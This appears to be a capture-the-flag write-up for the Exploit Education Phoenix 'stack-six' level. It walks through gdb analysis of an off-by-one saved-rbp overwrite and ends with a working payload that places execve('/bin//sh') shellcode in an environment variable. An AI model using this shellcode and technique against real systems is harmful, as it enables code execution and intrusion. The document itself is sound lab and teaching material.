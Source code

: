 payload: 

```shell
export ExploitEducation=$(python3 -c "print('A'*200)")
```

By setting breakpoint at `0x400745 <greet+72> call 0x400510 <strcpy@plt>` and `0x40077d <greet+128> call 0x400550 <strncpy@plt>`, the size of `GREET` can be calculated as 0x00007fffffffe4c2 - 0x00007fffffffe4a0 = 0x22 (34), since we can add another 127 bytes after `GREET`, 34 + 127 = 161 > 128, `buffer` will be overflowed.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-strcpy.png)

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-strncpy.png)

Next set break point at `0x400799 <greet+156> pop rbp` and `0x4007f6 <main+91> leave` to find what has been modified. At breakpoint `0x400799 <greet+156>`, both $rsp and $rbp is pointing to the address that we changed by overflowing `buffer` (0x7fffffffe541), note that only the last byte of address can be changed.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-pop-rbp.png)

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-buffer.png)

After executing `pop rbp`, $rsp is pointing to the next instruction of `call 0x4006fd <greet>` in main, and $rbp becomes to address we modified.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-greet-ret.png)

At break point `0x4007f6 <main+91>`, notice that $rbp is still the address we modified earlier.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-leave.png)

After executing `leave`, which is equivalent to `mov rsp, rbp; pop rbp`, $rsp becomes the address we modified + 8 (0x7fffffffe549 = 0x7fffffffe541 + 8), hence we know that we can jump to any address that 0x7fffffffe5XX + 8 points at, where XX can be arbitrary byte.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-main-ret.png)

Looking memory at 0x7fffffffe5XX, notice the address 0x7fffffffeec7 at 0x7fffffffe568, recall from the previous `strncpy`, it is the address of `who` (`ptr` from main, `ExploitEducation` from environment variable), also the stack is executable, hence we can put our shellcode in `ExploitEducation` and modified the address to 0x7fffffffe560.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-stack.png)

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-checksec.png)

payload: 
```shell
export ExploitEducation=$(python3 -c "import sys; shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'; sys.stdout.buffer.write(shellcode + b'\x60' * (200 - len(shellcode)))")
```

